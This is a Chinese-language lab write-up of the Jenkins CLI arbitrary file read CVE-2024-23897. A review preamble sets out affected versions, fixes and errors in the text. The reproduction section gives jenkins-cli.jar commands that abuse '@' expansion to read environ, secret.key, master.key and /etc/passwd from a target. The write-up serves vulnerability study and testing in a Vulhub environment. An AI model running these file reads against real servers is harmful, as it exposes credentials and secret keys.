





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：只写&lt;=2.441，未分LTS；实验2.441，help匿名首行与connect-node匿名Overall/Read分开

代码与实验材料：官方cli下载、environ和密钥文件、完整passwd不同命令；正确提示匿名只读行数但未说明编码限制

来源证据范围：官方SECURITY3314及Vulhub/微信分析

- **适用与权限边界（1）**：版本及二进制读取限制不全；依据：未列LTS及固定版本；密钥经默认字符集解码可能丢字节，第一行不是所有匿名命令统一上限。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **凭据与会话边界（2）**：文件名与实验凭据区分；依据：文字secrets.key但命令secret.key；admin/vulhub是靶场默认而非Jenkins默认。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Jenkins CLI 接口任意文件读取漏洞 CVE-2024-23897

## 2026-10-03 公开验证资料补充

现有 `jenkins-cli.jar` 的 `help 1 @file` 与 `connect-node @file` 命令提供实际验证输入。[Jenkins CNA](https://cveawg.mitre.org/api/cve/CVE-2024-23897) 分别列出普通版 2.441 及更早、LTS 2.426.2 及更早；修复普通版为 2.442、对应 LTS 为 2.426.3。二进制密钥经过默认字符集解码时可能损坏，不能将读取到的文本自动等同完整可用密钥；不同命令及权限可泄露的行数不同。

匿名获得 `Overall/Read` 与完全没有该权限的情形需分开。文中 `admin/vulhub` 是实验环境值；读环境变量、secret.key 或 master.key 会生成敏感输出副本。此处没有新增执行、客户端下载或对目标的请求。

### 独立复核补充说明

截至本次核对，[Jenkins 官方公告 SECURITY-3314](https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314) 的修复列表还包括 LTS 2.440.1；普通版 2.442、LTS 2.426.3 和 LTS 2.440.1 应按各自分支理解。修复后若重新启用 hudson.cli.CLICommand.allowAtSyntax，也会重新开放该参数展开功能，不能仅由版本号判定当前配置。


## 漏洞描述

Jenkins是一个开源的自动化服务器。

Jenkins使用[args4j](https://github.com/kohsuke/args4j)来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过`@`字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。

该漏洞影响Jenkins 2.441及以前的版本。

参考链接：

- [https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314](https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314)
- [https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw](https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw)

## 环境搭建

Vulhub 执行如下命令启动一个Jenkins server 2.441：

```
docker compose up -d
```

服务启动后，访问`http://your-vps-ip:8080/`即可查看到Jenkins登录页面，默认的管理员帐号密码为`admin`和`vulhub`。




## 漏洞复现

利用该漏洞可以直接使用官方提供的命令行客户端，在`http://your-vps-ip:8080/jnlpJars/jenkins-cli.jar`下载。

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，`JENKINS_HOME=/var/jenkins_home`：

```
java -jar jenkins-cli.jar -s http://your-vps-ip:8080/ -http help 1 "@/proc/self/environ"
```




可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```
java -jar jenkins-cli.jar -s http://your-vps-ip:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```




```
java -jar jenkins-cli.jar -s http://your-vps-ip:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```




因为开启了“匿名用户可读”选项，也可以直接使用`connect-node`命令读取完整文件内容：

```
java -jar jenkins-cli.jar -s http://your-vps-ip:8080/ -http connect-node "@/etc/passwd"
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
